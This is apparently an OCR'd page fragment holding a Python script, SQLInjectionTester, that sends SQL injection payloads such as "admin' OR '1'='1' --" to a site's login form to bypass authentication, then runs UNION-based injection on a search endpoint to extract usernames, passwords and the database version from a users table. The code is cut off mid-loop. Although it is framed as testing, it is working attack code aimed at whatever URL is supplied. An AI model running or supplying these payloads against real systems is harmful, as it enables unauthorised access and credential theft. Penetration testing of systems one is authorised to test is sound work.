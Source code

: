 ```bash
```

### Custom Testing Script
```python
# automated_test.py
import requests
import time
import json

class SQLInjectionTester:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        
    def test_authentication_bypass(self):
        """Test for authentication bypass vulnerabilities"""
        payloads = [
            "admin' OR '1'='1' --",
            "admin' OR 1=1 #",
            "' OR ''='",
            "admin'/**/OR/**/1=1--",
            "admin' UNION SELECT 1 --"
        ]
        
        results = []
        for payload in payloads:
            response = self.session.post(f"{self.base_url}/login", data={
                "username": payload,
                "password": "test"
            })
            
            vulnerable = "Login successful" in response.text or response.status_code == 200
            results.append({
                "payload": payload,
                "vulnerable": vulnerable,
                "response_code": response.status_code
            })
        
        return results
    
    def test_union_injection(self):
        """Test for UNION-based SQL injection"""
        # First, determine number of columns
        column_tests = []
        for i in range(1, 10):
            payload = f"' UNION SELECT {','.join(['NULL'] * i)} --"
            response = self.session.get(f"{self.base_url}/search", params={"q": payload})
            
            if response.status_code == 200 and "error" not in response.text.lower():
                column_tests.append(i)
        
        if column_tests:
            # Test data extraction
            columns = column_tests[0]
            payloads = [
                f"' UNION SELECT {','.join(['username'] + ['NULL'] * (columns-1))} FROM users --",
                f"' UNION SELECT {','.join(['password'] + ['NULL'] * (columns-1))} FROM users --",
                f"' UNION SELECT {','.join(['version()'] + ['NULL'] * (columns-1))} --"
            ]
            
            results = []
            for payload in payloads:
                response = self.session.get(f"{self.base_url}/search", params={"q": payload})
```